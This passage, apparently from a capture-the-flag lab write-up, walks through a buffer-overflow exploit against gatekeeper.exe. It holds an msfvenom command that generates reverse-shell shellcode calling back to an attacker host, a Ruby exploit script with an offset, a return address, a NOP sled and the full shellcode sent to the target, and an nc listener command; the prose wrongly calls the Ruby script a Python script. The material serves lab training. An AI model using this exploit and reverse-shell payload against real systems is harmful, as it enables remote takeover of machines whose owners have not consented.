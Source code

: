 Now, we are ready to get a reverse shell aka own our Windows VM machine via BOF. Let's generate our payload, don't forget to change LHOST to your Kali machine IP address:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.105 LPORT=5555 -f rb -a x86 --platform windows -b "\x00\x0A"

-b option allows us to exclude the badchars we have found earlier.
```
![Shellcode](shellcode.png) 

We need to copy and paste this into our getting a shell template:
```Ruby
buff = "A"*146
buff += "\xc3\x14\x04\x08"
buff += "\x90"*8
buff += "\xbb\xfb\xad\xee\xa2\xda\xda\xd9\x74\x24\xf4\x5a\x31\xc9" +
"\xb1\x52\x31\x5a\x12\x83\xc2\x04\x03\xa1\xa3\x0c\x57\xa9" +
"\x54\x52\x98\x51\xa5\x33\x10\xb4\x94\x73\x46\xbd\x87\x43" +
"\x0c\x93\x2b\x2f\x40\x07\xbf\x5d\x4d\x28\x08\xeb\xab\x07" +
"\x89\x40\x8f\x06\x09\x9b\xdc\xe8\x30\x54\x11\xe9\x75\x89" +
"\xd8\xbb\x2e\xc5\x4f\x2b\x5a\x93\x53\xc0\x10\x35\xd4\x35" +
"\xe0\x34\xf5\xe8\x7a\x6f\xd5\x0b\xae\x1b\x5c\x13\xb3\x26" +
"\x16\xa8\x07\xdc\xa9\x78\x56\x1d\x05\x45\x56\xec\x57\x82" +
"\x51\x0f\x22\xfa\xa1\xb2\x35\x39\xdb\x68\xb3\xd9\x7b\xfa" +
"\x63\x05\x7d\x2f\xf5\xce\x71\x84\x71\x88\x95\x1b\x55\xa3" +
"\xa2\x90\x58\x63\x23\xe2\x7e\xa7\x6f\xb0\x1f\xfe\xd5\x17" +
"\x1f\xe0\xb5\xc8\x85\x6b\x5b\x1c\xb4\x36\x34\xd1\xf5\xc8" +
"\xc4\x7d\x8d\xbb\xf6\x22\x25\x53\xbb\xab\xe3\xa4\xbc\x81" +
"\x54\x3a\x43\x2a\xa5\x13\x80\x7e\xf5\x0b\x21\xff\x9e\xcb" +
"\xce\x2a\x30\x9b\x60\x85\xf1\x4b\xc1\x75\x9a\x81\xce\xaa" +
"\xba\xaa\x04\xc3\x51\x51\xcf\x2c\x0d\x59\x66\xc5\x4c\x59" +
"\x6d\xa6\xd8\xbf\xe7\xd8\x8c\x68\x90\x41\x95\xe2\x01\x8d" +
"\x03\x8f\x02\x05\xa0\x70\xcc\xee\xcd\x62\xb9\x1e\x98\xd8" +
"\x6c\x20\x36\x74\xf2\xb3\xdd\x84\x7d\xa8\x49\xd3\x2a\x1e" +
"\x80\xb1\xc6\x39\x3a\xa7\x1a\xdf\x05\x63\xc1\x1c\x8b\x6a" +
"\x84\x19\xaf\x7c\x50\xa1\xeb\x28\x0c\xf4\xa5\x86\xea\xae" +
"\x07\x70\xa5\x1d\xce\x14\x30\x6e\xd1\x62\x3d\xbb\xa7\x8a" +
"\x8c\x12\xfe\xb5\x21\xf3\xf6\xce\x5f\x63\xf8\x05\xe4\x93" +
"\xb3\x07\x4d\x3c\x1a\xd2\xcf\x21\x9d\x09\x13\x5c\x1e\xbb" +
"\xec\x9b\x3e\xce\xe9\xe0\xf8\x23\x80\x79\x6d\x43\x37\x79" +
"\xa4"


require 'socket'

TCPSocket.open('192.168.0.227',31337){ |s| s.puts buff}
```
Before running the Ruby script, let's start a reverse shell in another terminal:
```bash
nc -nlvp 5555
```
![nc ReverseShell](ncReverseShell.png)

Now, let's run our python script:
```python ./shellcode.py
```
When we check our nc listener, we can see that we have a reverse shell now!...

![Revershell](reverseshell.png)

Woohoo, we are connected to this machine by exploiting BOF vulnerability that gatekeeper.exe has so let's try our final script on THM platform now.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
